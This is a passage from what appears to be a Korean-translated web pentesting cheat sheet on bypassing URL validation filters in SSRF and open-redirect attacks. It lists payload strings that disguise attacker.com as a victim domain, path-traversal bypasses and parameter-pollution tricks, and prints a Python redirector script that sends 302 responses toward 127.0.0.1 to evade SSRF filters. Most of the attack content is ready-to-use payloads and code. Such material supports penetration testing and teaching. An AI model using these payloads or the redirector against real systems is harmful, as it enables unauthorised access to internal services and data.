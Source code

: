 ```bash
https://attacker.com;https://{domain}
https://attacker.com\{domain}/
https://attacker.com\.{domain}
https://attacker.com/.{domain}
https://attacker.com\@@{domain}
https://attacker.com:\@@{domain}
https://attacker.com#\@{domain}
https://attacker.com\anything@{domain}/
https://www.victim.com(\u2044)some(\u2044)path(\u2044)(\u0294)some=param(\uff03)hash@attacker.com

# On each IP position try to put 1 attackers domain and the others the victim domain
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/

#Parameter pollution
next={domain}&next=attacker.com
```
### Paths and Extensions Bypass

URL가 경로나 확장자로 끝나야 하거나 경로를 포함해야 하는 경우, 다음 우회 방법 중 하나를 시도할 수 있습니다:
```
https://metadata/vulerable/path#/expected/path
https://metadata/vulerable/path#.extension
https://metadata/expected/path/..%2f..%2f/vulnerable/path
```
### Fuzzing

The tool [**recollapse**](https://github.com/0xacb/recollapse)는 주어진 입력에서 변형을 생성하여 사용된 정규 표현식을 우회하려고 시도할 수 있습니다. 더 많은 정보는 [**이 게시물**](https://0xacb.com/2022/11/21/recollapse/)을 확인하세요.

### Automatic Custom Wordlists

포트스위거의 [**URL validation bypass cheat sheet** 웹앱](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)을 확인해 보세요. 여기에서 허용된 호스트와 공격자의 호스트를 입력하면 시도할 URL 목록을 생성해 줍니다. 또한 URL을 매개변수, Host 헤더 또는 CORS 헤더에서 사용할 수 있는지 여부도 고려합니다.

{% embed url="https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet" %}

### Bypass via redirect

서버가 SSRF의 **원래 요청을 필터링**하고 **그 요청에 대한 가능한 리디렉션** 응답은 필터링하지 않을 가능성이 있습니다.\
예를 들어, `url=https://www.google.com/`를 통해 SSRF에 취약한 서버는 **url 매개변수를 필터링**할 수 있습니다. 그러나 리디렉션하려는 위치에 [302로 응답하는 파이썬 서버](https://pastebin.com/raw/ywAUhFrv)를 사용하면 127.0.0.1과 같은 **필터링된 IP 주소**나 gopher와 같은 필터링된 **프로토콜**에 **접근할 수** 있을 수 있습니다.\
[이 보고서를 확인하세요.](https://sirleeroyjenkins.medium.com/just-gopher-it-escalating-a-blind-ssrf-to-rce-for-15k-f5329a974530)
```python
#!/usr/bin/env python3

#python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
print("Usage: {} <port_number> <url>".format(sys.argv[0]))
sys.exit()

class Redirect(BaseHTTPRequestHandler):
def do_GET(self):
self.send_response(302)
self.send_header('Location', sys.argv[2])
self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```